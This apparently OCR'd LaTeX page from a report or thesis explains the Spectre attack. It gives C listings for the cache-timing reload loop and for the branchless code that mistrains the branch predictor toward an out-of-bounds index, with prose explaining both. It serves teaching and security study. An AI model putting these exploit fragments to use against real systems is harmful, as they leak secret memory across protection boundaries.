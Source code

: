 \documentclass[a4paper,oneside,openright] {scrreprt}
\begin{document}
\begin{lstlisting}[language=C, caption=Spectre: Reload, label={lst:reload}]
for (i = 0; i < 256; i++)
{
    mix_i = ((i * 167) + 13) & 255;
    addr = &array2[mix_i * 512];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD &&
        mix_i != array1[tries % array1_size])
        results[mix_i]++; /* cache hit -> score +1 for this value */
}
\end{lstlisting}

\subsection{Tricking the Branch Predictor}
\label{ch:intro:motivation:A}

Tricking the branch predictor is the core of the Spectre attack. 
Listing ~\ref{lst:twiddling} contains instructions which
 set the value of a variable \texttt{x} within a for-loop to confuse the branch predictor.
The variable \texttt{x} represents the access location of an array which is the starting point for malicious memory access.
The idea is to fill \texttt{x} over many iterations with valid locations so that the branch predictor believes
that its value is within the array bounds. But in some of the iterations \texttt{x} is set to an invalid memory location
which is out of the array bounds where the secret bytes should be read.

\begin{lstlisting}[language=C, caption=Spectre: Branch Predictor Tricking, label={lst:twiddling}]
x = ((j % 6) - 1) & ~0xFFFF;
/* Set x=-1 if j&6=0, else x=0 */
x = (x | (x >> 16));
x = training_x ^ (x & (malicious_x ^ training_x));
    
/* Call the victim! */
victim_function(x);
\end{lstlisting}

Although the instruction sequence seems complicated it just sets the value \texttt{x} to the malicious target location 
\texttt{malicious\_x} in every 6th iteration. In every other iteration \texttt{x} is set to \texttt{training\_x}.
Listing ~\ref{lst:simplified} shows the semantic equivalent which is not applicable for the attack because the compiled code
contains jump instructions which give the branch predictor hints that \texttt{malicious\_x} and also \texttt{x} are invalid.
The source code of listing ~\ref{lst:twiddling} is optimized so that the compiled instructions contain no jumps.
\end{document}

